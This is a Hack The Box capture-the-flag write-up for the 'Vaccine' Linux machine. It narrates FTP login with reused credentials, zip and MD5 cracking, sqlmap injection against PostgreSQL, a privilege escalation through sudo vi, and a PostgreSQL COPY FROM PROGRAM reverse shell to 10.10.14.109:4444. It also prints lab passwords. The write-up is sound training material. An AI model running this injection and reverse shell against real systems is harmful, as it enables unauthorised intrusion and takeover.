


# Vaccine Box

This is a linux box CTF on hack the box. It runs a website with a db back end.

This box was quite annoying because HTB targets are shared, multiple people are trying to hack it at once. This leads to other users deleting databases and also removing anything that I did, such as trying to inject a reverse shell. So I had to try at a few different times, sometimes rushing to avoid having what I did undone by another user dropping tables or trying the same attack as I was. 

Tools I used are:

- Kali Linux
- SQLMAP
- Netcat
- NMap
- FTP

## Let's begin

I'll start off with an Nmap scan using sV and sC flags.

Looks like we have few services open we can look into: FTP, SSH, HTTP

A quick search in searchsploit re the FTP server shows our only exploit is a DoS which is not helpful for the challenge.

SSH accepts password login and public key.

We have a MegaCorp login page on port 80.

Learning from the previous challenge, I'll try the admin credentials we got from Archetype that also worked in the Oopsie CTF, to see if it works on this challenge too. Not luck this time.

Next I'll try dirbuster and see if we can find any interesting folders or files.

After not finding much interesting I hit the forum and it advised that there is a credential in the last challenge that helps with this challenge. I'll load up the Oopsie box again and go hunting.

Hunting around the Oopsie box let to a filezilla configuration file in the /root/.config folder

here are the creds, we can see this is for IP 10.10.10.46, which is our current target.

ftpuser / mc@F1l3ZilL4

No we're in to the FTP folder with those credentials.

In that folder we can see one file called 'backup.zip'.

I'll grab it and see what's inside.

It looks like that file is password protected.

I'll try some of the passwords we have from this challenge and the previous challenges.

John was able to crack the password quite easily, I used this guide:

https://linuxconfig.org/how-to-crack-zip-password-on-kali-linux

 

backup.zip:741852963

After unzipping the file the username and md5 password hash is accessible in the index.php file.

MD5 Hash is: 2cb42f8734ea607eefed3b70af13bbd3

Decrypting the hash gives me the following:

admin / qwerty789

Now we're in the web portal.

Time to look around.

There is a search feature on the top right. There appears to be an injection option here as I received an error when trying a simple sql injection attack:

I'll try to use sqlmap to see if this can get me some info.

I'll use ZAP to capture the cookie data.

Looks like we have a PostgreSQL db, with possible injection here.

And we got some info

I'll try for a shell.

Note while I was attempting this it appears that the data in the db 'dissappeared' I'm assuming another player dropped the DB. I will come back later, as it happened twice to me within a 30min period.

Coming back after another day, the data was restored to the host so I continued with my testing.

Using SQLMAP I managed to get the database names with 'dbs' flag

I then took a look at the tables in the public DB:

Then I could obtain the data in that table with the --dump sqlmap flag.

I tried a reverse shell, but that did not seem to work with sqlmap.

Next I'll try get the user name and password ofr the db with the --user and --password flag in sqlmap

Now I will try to brute force the password with the rockyou.txt password list.

Unfortunately this did not work, the password must not be in that list.

Since I cannot get an os shell using the sqlmap builtin feature, I'll attempt to get a sql shell.

This worked.

Now I will attempt to manually get a reverse shell, this article provides some instructions on performing and testing command injection.

https://medium.com/greenwolf-security/authenticated-arbitrary-command-execution-on-postgresql-9-3-latest-cd18945914d5 

I ended up runing the following SQL Injection commands to get a reverse shell

DROP TABLE IF EXISTS cmd_exec;
CREATE TABLE cmd\_exec(cmd\_output text);

COPY cmd_exec FROM PROGRAM 'bash -c "bash -i >& /dev/tcp/10.10.14.109/4444 0>&1"';

This finally led to a remote shell

Since the site is user a DB, I will look through the code to see if the DB password is available.

We can see the DB password and user in the dashboard.php file

postgres P@s5w0rd!

Note at this point I got kicked off, another user must have dropped my table or reset the box. So I had to redo the above attack again to re-obtain a shell.

Now that I'm back in, I'll upgrade from a simple shell with python3 -c 'import pty; pty.spawn("/bin/sh")'

The user seems to have sudo access using vi, this can be easily exploited since vi can run shell commands. 

So I will run the above command as sudo, launching vi as root, then launch a shell with the following command in vi :!/bin/bash

Now I have root access

Finally for the flag:

